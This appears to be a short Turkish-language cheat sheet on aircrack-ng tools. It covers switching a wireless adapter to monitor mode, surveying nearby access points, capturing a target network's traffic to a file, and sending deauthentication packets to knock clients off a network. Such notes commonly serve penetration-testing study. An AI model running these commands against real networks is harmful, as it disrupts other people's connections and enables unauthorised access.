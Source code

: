 - iwconfig (sadece detaylı wireless bilgileri)
- mode -managed -monitor olabilir
---
- airmon-ng start/stop/check wlan0/wlan0mon **(Wifi Adaptör Mod Değiştirme)**
---
- airodump-ng wlan0mon **(Modemler Hakkında Bilgi Toplama)
	- BSSID: Modem MAC Adresi
	- PWR: Yakınlık-Uzaklık
	- CH: Kullanım Kanalı
	- ENC: Şifreleme
---
- airodump-ng --channel ...*channel*...  --bssid ...*bssid*... wlan0mon **(Hedef Modem Bilgilerini Toplama)**
	- wlan0mon'dan önce --write ...*dosya*... eklersen detaylı kayıt tutar. cap dosyası wireshark ile detaylıca inceleniyor
	- Station: Modeme bağlı cihazların MAC adresleri
	- Frames: İnternet kullanımı(paket)
---
- aireplay-ng --deauth ...*paketsayısı*... --a ...*bssid*...  wlan0mon **(Deauth Saldırısı)**
	- --c ...*station*... eklersen belirli bir cihaza saldırırsın